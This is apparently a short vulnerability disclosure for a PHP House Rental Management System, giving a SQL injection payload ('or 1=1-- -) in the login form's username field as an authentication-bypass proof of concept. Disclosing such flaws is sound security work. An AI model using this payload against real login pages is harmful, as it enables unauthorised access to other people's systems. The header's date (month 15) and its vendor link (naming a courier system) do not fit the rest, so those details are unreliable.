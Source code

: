 # House Rental Management System - Authentication Bypass
+ **Exploit Title:** House Rental Management System - Authentication Bypass
+ **Date:** 2024-15-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
House Rental Management System allows Authentication Bypass via the `username` and `password` parameters at "http://localhost/rental/login.php". 

## Proof of Concept:
+ Go to this address: "http://localhost/rental/login.php"
+ username : `'or 1=1-- -` password : `1`  and log in
+ Authentication Bypass Successful !

![Ekran görüntüsü 2024-05-15 234111](https://github.com/BurakSevben/CVEs/assets/117217689/74b0e3dd-9839-44a8-92fb-e17b3b76ec55)

![Ekran görüntüsü 2024-05-15 234302](https://github.com/BurakSevben/CVEs/assets/117217689/d8d8770c-1d08-40cd-9a86-75d436b7d07e)
